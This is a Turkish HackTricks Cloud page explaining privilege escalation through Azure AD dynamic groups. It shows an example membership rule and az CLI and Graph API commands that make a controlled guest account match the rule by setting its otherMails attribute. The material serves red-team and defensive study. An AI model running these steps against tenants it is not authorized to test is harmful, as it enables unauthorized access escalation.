 # Az - Dinamik Gruplar Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

**Dinamik gruplar**, belirli bir **kural** setine sahip olan ve bu kurallara uyan tüm **kullanıcılar veya cihazlar** grubuna eklenen gruplardır. Her seferinde bir kullanıcı veya cihazın **özelliği** **değiştiğinde**, dinamik kurallar **yeniden kontrol edilir**. Ve yeni bir **kural** **oluşturulduğunda** tüm cihazlar ve kullanıcılar **kontrol edilir**.

Dinamik gruplara **Azure RBAC rolleri atanabilir**, ancak **AzureAD rolleri** dinamik gruplara eklenemez.

Bu özellik, Azure AD premium P1 lisansı gerektirir.

## Privesc

Varsayılan olarak, herhangi bir kullanıcının Azure AD'de misafir davet etmesine izin verildiğini unutmayın, bu nedenle, bir dinamik grup **kuralı**, **özelliklere** dayalı olarak kullanıcılara **izinler** veriyorsa ve bu özellikler yeni bir **misafir** içinde **belirlenebiliyorsa**, bu özelliklere sahip bir **misafir** oluşturmak ve **yetki yükseltmek** mümkündür. Ayrıca, bir misafirin kendi profilini yönetmesi ve bu özellikleri değiştirmesi de mümkündür.

Dinamik üyeliğe izin veren grupları alın: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Örnek

* **Kural örneği**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Kural açıklaması**: 'security' dizesine sahip bir ikincil e-posta adresine sahip herhangi bir Misafir kullanıcı gruba eklenecektir.

Misafir kullanıcı e-postası için daveti kabul edin ve [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) adresinde **o kullanıcının** mevcut ayarlarını kontrol edin.\
Ne yazık ki, sayfa özellik değerlerini değiştirmeye izin vermiyor, bu nedenle API'yi kullanmamız gerekiyor:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Referanslar

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

